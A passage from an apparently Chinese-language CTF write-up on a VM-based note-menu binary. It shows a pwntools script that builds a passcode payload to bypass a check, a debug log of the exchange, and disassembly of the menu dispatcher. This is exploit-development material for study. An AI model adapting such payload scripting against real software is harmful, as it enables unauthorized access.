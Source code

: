 ```
check_num = 0x12345678+r
p.recvuntil("passcode:")

payload = b''
for i in range(0x11):
    payload += p8(table.index(key[i:i+1]))
payload += str(check_num).encode()
p.sendline(payload)
```

<a class="reference-link" name="note%E8%A1%A8%E5%8D%95%E5%88%86%E6%9E%90"></a>**note表单分析**

经过以上的分析，我们成功绕过检查后终于进入到note的表单界面。此时显现的5个功能的逻辑仍然需要我们去看一看note的反汇编的代码。

```
[DEBUG] Received 0x1d bytes:
    b'challenge 58769985\n'
    b'passcode: '
random 58769985
[DEBUG] Sent 0x1b bytes:
    b'01d_6u7_v190r0u5_364189881\n'
[*] Paused (press any to continue)
[DEBUG] Received 0x3f bytes:
    b'----menu----\n'
    b'1. new\n'
    b'2. show\n'
    b'3. edit\n'
    b'4. delete\n'
    b'5. exit\n'
    b'choice&gt;&gt; '
```

主程序的代码还是比较容易找到的，非常的清晰。程序会在data用一段空间来存储申请的note的地址，然后有如下的功能来对note进行操作。更加具体的大家可以仔细看看每个函数对应的汇编(asm文件)。
<li>new函数根据idx和size创建note，但是有限制
<ol>
1. 0&lt;size&lt;=0x60
1. 0&lt;idx&lt;=4
```
// main
0x145    push    reg11
0x147    mov    reg11,reg12
0x14a    mov    reg0,#0x1132
0x154    call    #0x6a8
//menu()
0x159    call    #0x629
//get_choice()
0x15e    cmp    reg0,#0x1
0x168    je    #0x1ae
0x16d    cmp    reg0,#0x2
0x177    je    #0x1b8
0x17c    cmp    reg0,#0x3
0x186    je    #0x1c2
0x18b    cmp    reg0,#0x4
0x195    je    #0x1cc
0x19a    cmp    reg0,#0x5
0x1a4    je    #0x1d6
0x1a9    jmp    #0x14a
//table
0x1ae    call    #0x26a
//new
0x1b3    jmp    #0x14a
0x1b8    call    #0x33d
//show
0x1bd    jmp    #0x14a
0x1c2    call    #0x37b
```